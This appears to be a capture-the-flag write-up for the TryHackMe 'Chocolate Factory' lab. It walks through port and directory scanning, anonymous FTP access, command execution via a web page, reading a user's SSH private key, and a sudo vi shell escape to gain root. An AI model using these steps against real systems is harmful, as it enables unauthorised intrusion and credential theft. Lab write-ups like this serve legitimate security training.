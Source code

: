 ![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/39c5fee3-85d2-4798-b105-98e14ac50bea)# TryHackMe-Chocolate-Factory-WriteUp
TryHackMe Chocolate Factory WriteUp

first we scan the machine using nmap using the command: nmap -sV [IP HERE]

nmap scan:
----------
21/tcp  open  ftp        vsftpd 3.0.3
22/tcp  open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http       Apache httpd 2.4.29 ((Ubuntu))
100/tcp open  newacct?
106/tcp open  pop3pw?
109/tcp open  pop2?
110/tcp open  pop3?
111/tcp open  rpcbind?
113/tcp open  ident?
119/tcp open  nntp?
125/tcp open  locus-map?
----------
we login to ftp using username: "anonymous" and password: "anonymous"

ftp found "gum_room.jpg", used steghide to extract it: "steghide extract -sf gum_room.jpg"
didnt put passphrase, b64.txt extracterd.
found what looks like a /etc/shadow file. didnt find anything usefull.
----------
we open the webpage and find a login portal.
i used gobuster to enumrate directories.
"gobuster dir -u http://[IP HERE] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.html"
gobuster: the name of the tool.
dir: specify we want to bruteforce directiories.
-u: specify the url
-w: specify the world list
-x: look for filees with exstinsions.

result: 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.125.237
[+] Method:                  GET
[+] Threads:                 54
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 1466]
/home.php             (Status: 200) [Size: 569]
/validate.php         (Status: 200) [Size: 93]
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
----------
we navigat to home.php, you can run commands in it.

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/31328d5d-7b3c-4da8-9d8b-fd4475152840)

we try the whoami command

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/8cf2685a-7078-42d9-9941-39b071417adb)

it works!
we search for users in the home directory using “ls /home"

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/96d7bf6b-4f29-4aef-97c2-fd7cfe113a57)

found user charlie, we list the files, using "ls /home/charlie"

 ![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/3c453544-953a-44d1-b065-04195b075d5a)

"cat /home/charlie/teleport", Bingo! found ssh private key.

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/82535ef1-a991-4952-89a4-b67110ab22bb)

i copied it into id_rsa file then give it the right permissions using “chmod +600”
test if we can login using ssh to the user.
the credintials works!

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/9522c208-f459-47b1-ae7f-8c4100d71e28)

in /var/www/html i found a file named key_rev_key, i try to run it:

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/0297133e-a4ca-474e-9666-f5e0b726651c)

changed the permissions using “chmod +x key_rev_key”

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/b2901f69-3384-42a9-bada-0c384fbf021e)

since its a binary, we can check the file contents using “ strings key_rev_key”

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/34ce26e8-bcc5-4d97-b07f-0afe6d27704d)

got the key! 
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='

in /var/www/html we "cat" validate.php: 

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/2199617c-b703-453a-aaad-aba2359fb1cd)

run validate.php , bingo we got charlies password :)

login to charlies account using "su charlie"
user.txt:
![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/afefcc59-1a50-41a5-b35c-11c2ad7a984d)

----------
Privilge escalition:

in charlie, i tried "sudo -l"

result:

Matching Defaults entries for charlie on chocolate-factory:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi


in gtfobins, vi -c ':!/bin/sh' /dev/null
tried run "sudo vi -c ':!/bin/sh' /dev/null"
charlie@chocolate-factory:/home/charlie$ sudo vi -c ':!/bin/sh' /dev/null
pwned!!

root flag:

we find root.py
we run it , enter the key we obtained before , and it shows us the root flag.

![image(1)](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/cabbb2fe-8af8-46ec-a323-7764c1441762)

Happy Pwning :)
